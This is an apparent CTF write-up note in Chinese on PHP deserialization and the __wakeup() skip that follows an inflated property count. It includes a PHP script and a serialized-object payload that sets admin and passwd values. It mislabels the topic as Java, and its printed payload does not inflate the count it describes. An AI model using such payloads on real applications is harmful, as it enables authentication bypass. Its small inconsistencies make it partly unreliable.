比较明显java反序列化，让admin=admin,passwd=wllm

`sha1` 是一种 **哈希算法**（Secure Hash Algorithm 1），它会把任意长度的数据转换成一个固定长度的 **40位十六进制字符串**（160位二进制）。

## wakeup（）

正常来说在反序列化过程中，会先调用wakeup()方法再进行unserilize()，但如果序列化字符串中表示对象属性个数的值大于真实的属性个数时，wakeup()的执行会被跳过。

 **`__wakeup()`函数漏洞原理：当序列化字符串表示对象属性个数的值大于真实个数的属性时就会跳过__wakeup的执行**

在 PHP 中，当执行 `unserialize()` 还原对象时，PHP 会进行以下流程：

1. 检查传入的序列化字符串是否合法。
2. 根据字符串创建对象实例，并填充属性值。
3. **如果属性数量匹配，并且类中定义了 `__wakeup()`，则会执行 `__wakeup()` 方法**。

然而，如果**序列化字符串声明的属性数量与类实际的属性数量不一致**（尤其是**声明的数量大于真实数量**），PHP 会在反序列化时抛出“属性数量不匹配”的错误，直接 **跳过 `__wakeup()` 的执行**，只返回对象实例。

**payload**

```
<?php

header("Content-type:text/html;charset=utf-8");
error_reporting(0);
show_source("class.php");

class HaHaHa{

    public $admin="admin";
    public $passwd="wllm";

}

$w=new HaHaHa();
$w=serialize($w);
echo $w;

?>
```

```
O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```
